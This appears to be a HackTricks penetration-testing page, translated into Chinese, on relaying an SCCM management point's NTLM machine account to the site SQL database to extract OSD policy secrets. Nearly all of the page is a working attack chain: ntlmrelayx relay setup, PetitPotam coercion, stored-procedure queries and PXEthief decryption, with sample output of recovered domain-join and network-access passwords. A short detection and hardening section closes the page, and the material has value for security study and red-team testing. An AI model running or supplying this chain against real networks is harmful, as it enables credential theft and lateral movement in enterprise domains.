 # SCCM 管理点 NTLM 中继到 SQL – OSD 策略秘密提取

{{#include ../../banners/hacktricks-training.md}}

## TL;DR
通过强制 **System Center Configuration Manager (SCCM) 管理点 (MP)** 通过 SMB/RPC 进行身份验证，并将该 NTLM 机器帐户中继到 **站点数据库 (MSSQL)**，您将获得 `smsdbrole_MP` / `smsdbrole_MPUserSvc` 权限。这些角色允许您调用一组存储过程，暴露 **操作系统部署 (OSD)** 策略 blob（网络访问帐户凭据、任务序列变量等）。这些 blob 是十六进制编码/加密的，但可以使用 **PXEthief** 解码和解密，得到明文秘密。

高层链：
1. 发现 MP 和站点数据库 ↦ 未经身份验证的 HTTP 端点 `/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA`。
2. 启动 `ntlmrelayx.py -t mssql://<SiteDB> -ts -socks`。
3. 使用 **PetitPotam**、PrinterBug、DFSCoerce 等强制 MP。
4. 通过 SOCKS 代理连接 `mssqlclient.py -windows-auth` 作为中继的 **<DOMAIN>\\<MP-host>$** 帐户。
5. 执行：
* `use CM_<SiteCode>`
* `exec MP_GetMachinePolicyAssignments N'<UnknownComputerGUID>',N''`
* `exec MP_GetPolicyBody N'<PolicyID>',N'<Version>'`   （或 `MP_GetPolicyBodyAfterAuthorization`）
6. 去除 `0xFFFE` BOM，`xxd -r -p` → XML  → `python3 pxethief.py 7 <hex>`。

诸如 `OSDJoinAccount/OSDJoinPassword`、`NetworkAccessUsername/Password` 等秘密在不接触 PXE 或客户端的情况下被恢复。

---

## 1. 枚举未经身份验证的 MP 端点
MP ISAPI 扩展 **GetAuth.dll** 暴露了几个不需要身份验证的参数（除非站点仅为 PKI）：

| 参数 | 目的 |
|-----------|---------|
| `MPKEYINFORMATIONMEDIA` | 返回站点签名证书公钥 + *x86* / *x64* **所有未知计算机** 设备的 GUID。 |
| `MPLIST` | 列出站点中的每个管理点。 |
| `SITESIGNCERT` | 返回主站点签名证书（在没有 LDAP 的情况下识别站点服务器）。 |

获取将作为后续数据库查询的 **clientID** 的 GUID：
```bash
curl http://MP01.contoso.local/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA | xmllint --format -
```
---

## 2. 将 MP 机器账户中继到 MSSQL
```bash
# 1. Start the relay listener (SMB→TDS)
ntlmrelayx.py -ts -t mssql://10.10.10.15 -socks -smb2support

# 2. Trigger authentication from the MP (PetitPotam example)
python3 PetitPotam.py 10.10.10.20 10.10.10.99 \
-u alice -p P@ssw0rd! -d CONTOSO -dc-ip 10.10.10.10
```
当强制执行触发时，您应该看到类似以下内容：
```
[*] Authenticating against mssql://10.10.10.15 as CONTOSO/MP01$ SUCCEED
[*] SOCKS: Adding CONTOSO/MP01$@10.10.10.15(1433)
```
---

## 3. 通过存储过程识别 OSD 策略
通过 SOCKS 代理连接（默认端口 1080）：
```bash
proxychains mssqlclient.py CONTOSO/MP01$@10.10.10.15 -windows-auth
```
切换到 **CM_<SiteCode>** 数据库（使用 3 位站点代码，例如 `CM_001`）。

### 3.1 查找未知计算机 GUID（可选）
```sql
USE CM_001;
SELECT SMS_Unique_Identifier0
FROM dbo.UnknownSystem_DISC
WHERE DiscArchKey = 2; -- 2 = x64, 0 = x86
```
### 3.2 列出分配的策略
```sql
EXEC MP_GetMachinePolicyAssignments N'e9cd8c06-cc50-4b05-a4b2-9c9b5a51bbe7', N'';
```
每行包含 `PolicyAssignmentID`、`Body`（十六进制）、`PolicyID`、`PolicyVersion`。

关注政策：
* **NAAConfig**  – 网络访问账户凭据
* **TS_Sequence** – 任务序列变量（OSDJoinAccount/Password）
* **CollectionSettings** – 可以包含以运行身份的账户

### 3.3  检索完整主体
如果您已经拥有 `PolicyID` 和 `PolicyVersion`，则可以使用以下方法跳过 clientID 要求：
```sql
EXEC MP_GetPolicyBody N'{083afd7a-b0be-4756-a4ce-c31825050325}', N'2.00';
```
> 重要提示：在 SSMS 中增加“最大检索字符数”（>65535），否则 blob 将被截断。

---

## 4. 解码和解密 blob
```bash
# Remove the UTF-16 BOM, convert from hex → XML
echo 'fffe3c003f0078…' | xxd -r -p > policy.xml

# Decrypt with PXEthief (7 = decrypt attribute value)
python3 pxethief.py 7 $(xmlstarlet sel -t -v "//value/text()" policy.xml)
```
恢复的秘密示例：
```
OSDJoinAccount : CONTOSO\\joiner
OSDJoinPassword: SuperSecret2025!
NetworkAccessUsername: CONTOSO\\SCCM_NAA
NetworkAccessPassword: P4ssw0rd123
```
---

## 5. 相关的 SQL 角色和过程
在中继时，登录映射到：
* `smsdbrole_MP`
* `smsdbrole_MPUserSvc`

这些角色暴露了数十个 EXEC 权限，在此攻击中使用的关键权限是：

| 存储过程 | 目的 |
|------------------|---------|
| `MP_GetMachinePolicyAssignments` | 列出应用于 `clientID` 的策略。 |
| `MP_GetPolicyBody` / `MP_GetPolicyBodyAfterAuthorization` | 返回完整的策略主体。 |
| `MP_GetListOfMPsInSiteOSD` | 由 `MPKEYINFORMATIONMEDIA` 路径返回。 |

您可以使用以下命令检查完整列表：
```sql
SELECT pr.name
FROM   sys.database_principals AS dp
JOIN   sys.database_permissions AS pe ON pe.grantee_principal_id = dp.principal_id
JOIN   sys.objects AS pr ON pr.object_id = pe.major_id
WHERE  dp.name IN ('smsdbrole_MP','smsdbrole_MPUserSvc')
AND  pe.permission_name='EXECUTE';
```
---

## 6. 检测与加固
1. **监控 MP 登录** – 任何 MP 计算机账户从非主机 IP 登录 ≈ 中继。
2. 在站点数据库上启用 **身份验证的扩展保护 (EPA)** (`PREVENT-14`)。
3. 禁用未使用的 NTLM，强制 SMB 签名，限制 RPC（对 `PetitPotam`/`PrinterBug` 使用相同的缓解措施）。
4. 使用 IPSec / 互相 TLS 加固 MP ↔ DB 通信。

---

## 另请参见
* NTLM 中继基础：
{{#ref}}
../ntlm/README.md
{{#endref}}

* MSSQL 滥用与后期利用：
{{#ref}}
abusing-ad-mssql.md
{{#endref}}



## 参考文献
- [我想和你的经理谈谈：通过管理点中继窃取秘密](https://specterops.io/blog/2025/07/15/id-like-to-speak-to-your-manager-stealing-secrets-with-management-point-relays/)
- [PXEthief](https://github.com/MWR-CyberSec/PXEThief)
- [配置错误管理器 – ELEVATE-4 & ELEVATE-5](https://github.com/subat0mik/Misconfiguration-Manager)
{{#include ../../banners/hacktricks-training.md}}
